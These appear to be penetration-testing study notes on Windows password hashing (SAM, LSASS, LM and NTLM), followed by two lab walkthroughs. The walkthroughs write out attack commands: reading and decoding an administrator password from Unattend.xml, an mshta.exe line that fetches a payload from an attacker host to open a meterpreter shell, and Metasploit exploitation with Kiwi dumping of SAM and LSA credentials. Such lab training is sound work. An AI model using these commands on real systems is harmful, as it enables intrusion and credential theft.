
### Windows Password Hashing
the windows OS stores hashed user account passwords locally in the SAM (security accounts manager) database

hashing is the process of converting a piece of data into another value a hashing function or algorithm is known as a hash value

authentication and verification of user credentials is facilitated by the local security authority (LSA)

- windows versions up to windows server 2003 utilize two different types of hashes:
- LM
- NTLM
Windows disables LM hashing and utilizes NTML hashing from windows vista onwards


the windows NT kernel keeps the SAM database file locked and as a result the attackers typically utilize in-memory techniques and tools to dump Sam hashes from the LSASS  process 

- in modern versions of windows the sam database is encrypted with a syskey 

Note: Elevated/administrative privileges are required in order to access and interact with the LSASS process


LM : is the default hashing algorithm that was implemented in windows operating system prior to NT40

NTLM : IS A collection of authentication protocols that are utilized in windows to facilitate authentication between computers the authentication process involves using a valid username and password to authenticate successfully

NTLM improves upon LM in the following ways:
- does not split the hash in to two chunks
- case sensitive
- allows the use of symbols and Unicode character 

from windows vista onwards windows disables LM hashing and utilizes NTLM hashing


Searching for passwords in windows configuration files
- windows can automate a variety of repetitive tasks such the mass rollout or installation of windows on many systems
- if the unattended windows setup configuration files are left on the target system after installation they can reveal user account credentials that can be used by attackers to authenticate with windows target legitimately

### Unattended installation Lab

	Step 1: Switch to Attacker Machine for locating a privilege escalation vulnerability.
	Step 2: Open powershell.exe terminal to check the current user
	Step 3: We will run the powerup.ps1 Powershell script to find privilege escalation vulnerability
	-cd.\Desktop\PowerSploit\Privesc\
	ls
	Step 4: Import PowerUp.ps1 script and Invoke-PrivescAudit function
	powershell -ep bypass (Powershell execution policy bypass)
	. .\PowerUp.ps1
	Invoke-PrivescAudit
	cat C:\\Windows\Panther\Unattend.xml
	Step 6: Decoding administrator password using Powershell
	$password='QWRtaW5AMTIz'
	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
	ssword))
	echo $password
	Step 7: We are running a command prompt as an administrator user using discover credentials
	unas.exe /user:administrator cmd
	Admin@123
	whoami
	Step 8: Running the hta_server module to gain the meterpreter shell. Start msfconsole.
	msfconsole -q
	use exploit/windows/misc/hta_server
	exploit
	Step 9: Gaining a meterpreter shell.
	mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta
	sessions -i 1
	cd /
	cd C:\\Users\\Administrator\\Desktop
	dir
	cat flag.txt

#### Windows: Meterpreter: Kiwi Extension Lab
	nmap ip
	nmap -sV -p80 ip
	searchsploit hfs
	msfconsole -q
	use exploit/windows/http/badblue_passthru
	set RHOSTS ip
	exploit
	migrate -N lsass.exe
	load kiwi
	creds_all
	lsa_dump_sam
	lsa_dump_secrets
	
